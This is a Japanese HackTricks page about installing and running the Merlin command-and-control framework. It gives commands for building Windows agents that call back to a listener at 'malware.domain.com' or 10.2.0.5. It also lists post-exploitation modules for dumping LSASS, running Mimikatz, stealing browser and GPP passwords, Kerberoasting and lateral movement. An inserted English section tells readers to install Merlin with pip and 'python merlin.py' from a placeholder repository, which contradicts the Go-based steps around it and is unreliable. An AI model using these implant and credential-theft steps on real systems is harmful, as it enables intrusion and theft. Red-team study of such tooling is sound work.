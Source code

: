 <details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦で**フォロー**する [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>


# インストール

## GOをインストール
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Merlinのインストール

Install Merlin by following these steps:

1. Clone the Merlin repository from GitHub:
```bash
git clone https://github.com/username/merlin.git
```

2. Change into the Merlin directory:
```bash
cd merlin
```

3. Install the required dependencies using pip:
```bash
pip install -r requirements.txt
```

4. Run Merlin:
```bash
python merlin.py
```

Now you have successfully installed Merlin on your system.
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Merlinサーバーの起動
```
go run cmd/merlinserver/main.go -i
```
# マーリン エージェント

[事前にコンパイルされたエージェントをダウンロード](https://github.com/Ne0nd0g/merlin/releases)できます。

## エージェントのコンパイル

メインフォルダー _$GOPATH/src/github.com/Ne0nd0g/merlin/_ に移動します。
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **マニュアルコンパイルエージェント**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# モジュール

**悪いニュースは、Merlinが使用するすべてのモジュールがソース（Github）からダウンロードされ、ディスクに保存されることです。よく知られたモジュールを使用する際には注意してください。Windows Defenderに検出される可能性があります！**


**SafetyKatz** --> 改変されたMimikatz。LSASSをファイルにダンプして、:sekurlsa::logonpasswordsをそのファイルに実行します\
**SharpDump** --> 指定されたプロセスIDのminidump（デフォルトではLSASS）（最終ファイルの拡張子は.gzですが、実際には.binですが、.gzファイルです）\
**SharpRoast** --> Kerberoast（動作しません）\
**SeatBelt** --> CSのローカルセキュリティテスト（動作しません）https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafeを使用してコンパイル\
**Sharp-Up** --> PowerupでC#のすべてのチェックを実行します（動作します）\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNSのスプーファーおよび中間者ツール（動作しません、読み込みが必要：https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1）\
**Invoke-InternalMonologue** --> 利用可能なすべてのユーザーを偽装し、各ユーザーのチャレンジレスポンスを取得します（各ユーザーのNTLMハッシュ）（悪いURL）\
**Invoke-PowerThIEf** --> IExplorerからフォームを盗み出すか、JSを実行するか、そのプロセスにDLLをインジェクトします（動作しません）（およびPSも動作しないようです）https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ブラウザのパスワードを取得します（機能しますが、出力ディレクトリを表示しません）\
**dumpCredStore** --> Win32資格情報マネージャAPI（https://github.com/zetlen/clortho/blob/master/CredMan.ps1）https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> 実行中のプロセスでクラシックインジェクションを検出します（Classic Injection（OpenProcess、VirtualAllocEx、WriteProcessMemory、CreateRemoteThread））（動作しません）\
**Get-OSTokenInformation** --> 実行中のプロセスとスレッドのトークン情報を取得します（ユーザー、グループ、特権、所有者... https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class）\
**Invoke-DCOM** --> DCOM経由で（他のコンピューターで）コマンドを実行します（http://www.enigma0x3.net.）（https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/）\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COMオブジェクト（ADDin）を悪用して他のPCでコマンドを実行します\
**Invoke-ExcelMacroPivot** --> ExcelのDCOMを悪用して他のPCでコマンドを実行します\
**Find-ComputersWithRemoteAccessPolicies** --> （動作しません）（https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/）\
**Grouper** --> グループポリシーの最も興味深い部分をすべてダンプし、それらを検索して攻撃可能なものを探します（非推奨）Grouper2を見てみてください、本当に素敵です\
**Invoke-WMILM** --> 横断移動のためのWMI\
**Get-GPPPassword** --> groups.xml、scheduledtasks.xml、services.xml、datasources.xmlを検索して平文パスワードを返します（ドメイン内）\
**Invoke-Mimikatz** --> Mimikatzを使用します（デフォルトのクレデンシャルをダンプ）\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> コンピューターのユーザーの特権をチェックします\
**Find-PotentiallyCrackableAccounts** --> SPNに関連付けられたユーザーアカウントに関する情報を取得します（Kerberoasting）\
**psgetsystem** --> getsystem

**持続性モジュールはチェックしていません**

# 要約

このツールの感触とポテンシャルが本当に気に入っています。\
ツールがサーバーからモジュールをダウンロードし始め、スクリプトをダウンロードする際に回避機能を統合することを期待しています。
